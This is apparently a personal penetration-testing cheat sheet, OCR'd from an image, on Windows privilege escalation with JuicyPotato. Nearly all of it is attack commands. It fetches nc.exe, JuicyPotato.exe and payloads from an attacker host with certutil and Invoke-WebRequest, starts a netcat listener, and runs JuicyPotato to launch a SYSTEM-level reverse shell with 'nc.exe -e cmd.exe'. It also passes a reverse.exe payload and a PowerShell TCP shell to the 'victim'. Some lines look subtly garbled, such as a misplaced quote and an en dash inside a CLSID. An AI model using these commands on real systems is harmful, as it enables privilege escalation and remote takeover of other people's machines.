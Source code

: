 [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.

#### NC Netcat bypass AntiVirus
```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/nc.exe -OutFile nc.exe'
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 4444
```

```powershell - windows
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

```command prompt - windows
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

#### Juicy Potato Manual
Transfer JuicyPotato.exe, test_clsid.bat and CLSID.list to the victim, in the same folder.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/JuicyPotato.exe && certutil -urlcache -split -f http://$KALI/test_clsid.bat && certutil -urlcache -split -f http://$KALI/CLSID.list
```

```command prompt - windows
.\test_clsid.bat
```

Open result.log

Select anyone CLSID from this list, make sure it had higher authority (NT AUTHORITY\SYSTEM)

[[1._Reverse Shells (WIN)#MSFVenom]]

Transfer reverse.exe to Victim.

![[4._File Transfers#Certutil]]


![[rlwrap]]

```command prompt - windows
JuicyPotato.exe -l 1337 -p reverse.exe -t * -c {687e55ca-6621–4c41-b9f1-c0eddc94bb05}
```


---


```bash - kali
cp Invoke-PowerShellTcp.ps1 shell-2.ps1
```

